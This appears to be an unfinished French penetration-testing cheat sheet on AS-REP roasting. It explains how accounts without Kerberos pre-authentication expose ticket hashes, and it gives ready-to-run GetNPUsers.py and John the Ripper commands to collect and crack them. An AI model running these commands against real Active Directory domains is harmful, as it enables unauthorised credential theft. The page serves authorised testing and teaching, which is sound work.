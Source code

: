```yaml
---
description: A finir
---
```


# ASREP

Lors d’une demande de TGT, l’utilisateur doit, par défaut, s’authentifier auprès du KDC pour que celui-ci lui réponde. Il arrive que cette authentification ne soit pas toujours demandée. Si c'est le cas, n’importe qui peut demander un TGT (contenant le mot de passe sous forme de _hash_) au nom d’un de ces comptes.

### Récupération des tickets TGT

```
# Ne nécessite pas de compte mais requière de connaître tous les comptes du domaine
GetNPUsers.py <domain.local>/ -no-pass -usersfile users.txt

# Réalise une demande de TGT pour tous les comptes du domaine mais nécessite un compte 
GetNPUsers.py <domain.local>/<USER>:<PASS> -request -format john -outputfile hashs_<IP>.txt
```

### Cassage des _hashs_ obtenus

```
john --format=krb5asrep --wordlist=passwords_kerb.txt hashes.asreproast
```
